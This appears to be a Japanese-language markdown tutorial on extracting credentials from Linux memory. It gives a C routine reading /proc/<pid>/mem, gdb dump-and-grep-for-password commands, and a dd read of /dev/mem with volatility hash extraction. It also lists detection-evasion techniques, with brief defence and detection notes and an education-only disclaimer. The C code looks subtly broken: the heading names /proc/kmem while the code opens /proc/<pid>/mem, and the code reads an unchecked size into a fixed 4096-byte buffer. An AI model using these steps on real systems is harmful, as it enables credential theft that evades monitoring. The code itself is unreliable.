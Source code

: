# Linux Memory Dumping Techniques

**対応OS**: Linux

## 概要
Linuxシステムからメモリ内のクレデンシャルを抽出する手法について解説します。

## 基本的な手法

### /proc/kmemを使用したメモリダンプ
```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/types.h>

void dump_memory(pid_t pid, unsigned long addr, size_t size)
{
    char path[256];
    snprintf(path, sizeof(path), "/proc/%d/mem", pid);
    
    int fd = open(path, O_RDONLY);
    if (fd == -1) return;
    
    char buffer[4096];
    lseek(fd, addr, SEEK_SET);
    read(fd, buffer, size);
    close(fd);
}
```

### GDBを使用したメモリダンプ
```bash
# プロセスにアタッチ
gdb -p <PID>

# メモリ領域のダンプ
dump memory output.dump <start_addr> <end_addr>

# クレデンシャル関連の文字列検索
strings output.dump | grep -i "password"
```

### volatilityを使用した解析
```bash
# メモリイメージの取得
dd if=/dev/mem of=memory.dump bs=1M

# Linuxプロファイルの作成
vol.py --info | grep Linux

# プロセスリストの取得
vol.py -f memory.dump --profile=LinuxProfile linux_pslist

# クレデンシャルの抽出
vol.py -f memory.dump --profile=LinuxProfile linux_hashdump
```

## 検知回避テクニック
- プロセス隠蔽
- メモリアクセスの分散
- 特権昇格の回避
- ファイルシステム操作の隠蔽

## 防御策
- /proc/メモリアクセスの制限
- SELinuxポリシーの強化
- プロセスの監視
- メモリ保護機能の有効化

## 検知方法
- 不審なメモリアクセス
- 特権プロセスの監視
- ファイルシステム操作の監視
- システムコールの追跡

## 注意事項
- このテクニックは教育目的でのみ使用してください
- 実環境での使用は法的責任を伴う可能性があります
- すべてのテストは許可された環境でのみ行ってください 